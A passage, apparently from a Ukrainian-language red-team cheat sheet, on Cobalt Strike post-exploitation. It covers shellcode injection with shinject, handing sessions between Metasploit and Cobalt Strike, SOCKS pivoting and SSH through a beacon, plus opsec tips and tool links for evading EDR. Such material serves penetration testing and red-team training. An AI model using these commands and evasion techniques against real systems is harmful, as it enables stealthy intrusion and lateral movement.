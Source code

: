## Скопіюйте бінарний файл на хост cobalt strike
ps
shinject <pid> x64 C:\Payloads\msf.bin #Впровадьте shellcode metasploit у процес x64

# Pass metasploit session to cobalt strike
## Згенеруйте stageless Beacon shellcode, перейдіть до Attacks > Packages > Windows Executable (S), виберіть бажаний слухач, виберіть Raw як тип виходу та виберіть Use x64 payload.
## Використовуйте post/windows/manage/shellcode_inject у metasploit для впровадження згенерованого shellcode cobalt strike.

# Pivoting
## Відкрийте проксі-сервер socks на teamserver
beacon> socks 1080

# SSH connection
beacon> ssh 10.10.17.12:22 username password</code></pre>

## Opsec

### Execute-Assembly

**`execute-assembly`** використовує **жертвенний процес**, використовуючи віддалене впровадження процесу для виконання вказаної програми. Це дуже шумно, оскільки для впровадження в процес використовуються певні Win API, які перевіряє кожен EDR. Однак є деякі спеціальні інструменти, які можна використовувати для завантаження чогось в той же процес:

- [https://github.com/anthemtotheego/InlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly)
- [https://github.com/kyleavery/inject-assembly](https://github.com/kyleavery/inject-assembly)
- У Cobalt Strike ви також можете використовувати BOF (Beacon Object Files): [https://github.com/CCob/BOF.NET](https://github.com/CCob/BOF.NET)
- [https://github.com/kyleavery/inject-assembly](https://github.com/kyleavery/inject-assembly)

Скрипт агресора `https://github.com/outflanknl/HelpColor` створить команду `helpx` у Cobalt Strike, яка додасть кольори в команди, вказуючи, чи це BOFs (зелений), якщо це Frok&Run (жовтий) і подібне, або якщо це ProcessExecution, впровадження або подібне (червоний). Це допомагає знати, які команди є більш прихованими.

### Act as the user

Ви можете перевірити події, такі як `Seatbelt.exe LogonEvents ExplicitLogonEvents PoweredOnEvents`:
